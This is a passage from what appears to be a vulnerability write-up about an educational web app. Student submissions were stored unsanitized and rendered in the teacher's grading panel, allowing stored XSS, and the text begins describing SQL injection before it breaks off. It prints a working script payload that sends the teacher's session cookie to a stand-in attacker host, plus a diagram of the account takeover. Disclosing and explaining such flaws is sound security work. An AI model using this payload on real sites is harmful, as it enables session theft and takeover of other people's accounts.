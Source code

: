 In one of the applications, there are activities where students can submit free-form text that teachers will later review and grade.


These submissions were stored without sanitization in the database and rendered in the teacher’s panel without any output validation. This allowed any student to inject and execute JavaScript code in the teacher’s browser (i.e., via `<script>` tags) when they inevitably viewed the submission.


As the session cookie did not have the `HttpOnly` attribute, it could be obtained and exfiltrated using JavaScript (`document.cookie`). So, a submission with the following content could have been used to steal teachers’ accounts by exfiltrating their session cookie to the attacker’s server:


```html
<script>
  fetch('https://attacker.poc/?cookie='+encodeURIComponent(document.cookie))
</script>
```


```mermaid
sequenceDiagram
    autonumber
    participant ST as Student
    participant APP as Web App
    participant TA as Teacher


    ST->>APP: Submits malicious answer
    APP->>APP: Store payload without<br/>sanitization in the DB
    TA->>APP: Opens grading page
    APP-->>TA: Renders submission
    Note over TA: Script executes in<br/>teacher's browser
    TA-->>ST: JavaScript code exfiltrates the teacher's<br/>session cookie to the student's endpoint
    ST->>APP: Set stolen cookie<br/>and access teacher's account
```



## SQL Injections Everywhere


Multiple SQL injections were found; most parts of the application that used a GET or POST parameter for database operations did so insecurely.


One case stood out, as it was one of the few with some sort of validation.


It was present in a form used to query a student’s group identifier using their enrollment number and national ID, with the following validations:
* The national ID had both single and double quotes removed.
* The enrollment number length was enforced to be exactly 6 characters.


The server used the following query:

